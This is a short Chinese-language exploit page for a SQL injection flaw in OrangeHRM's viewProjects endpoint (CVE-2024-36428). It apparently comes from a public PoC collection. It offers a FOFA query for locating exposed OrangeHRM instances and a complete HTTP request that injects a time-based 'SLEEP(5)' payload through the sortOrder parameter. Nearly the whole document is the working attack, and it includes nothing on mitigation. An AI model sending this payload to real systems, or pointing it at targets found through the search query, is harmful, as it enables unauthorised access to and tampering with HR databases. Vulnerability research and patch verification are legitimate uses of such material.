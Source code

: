 ## OrangeHRM-viewProjects接口存在SQL注入漏洞(CVE-2024-36428)

 OrangeHRM 这个漏洞是因为在处理用户输入时，没有对输入进行适当的清理或转义，导致攻击者可以通过输入恶意构造的数据来操作或篡改后端数据库的查询。

## fofa

```
app="OrangeHRM-产品"
```

## poc

```
GET /orangehrm-3.3.3/orangehrm-3.3.3/symfony/web/index.php/admin/viewProjects?sortField=customerName&sortOrder=ASC;SELECT%20SLEEP(5) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Loggedin=True; CookieLanguageName=ZH-CN; CookieAuthType=0; PHPSESSID=c1g00j77qdi2td1cou2qeua321
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![image-20240604124126459](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406041241517.png)
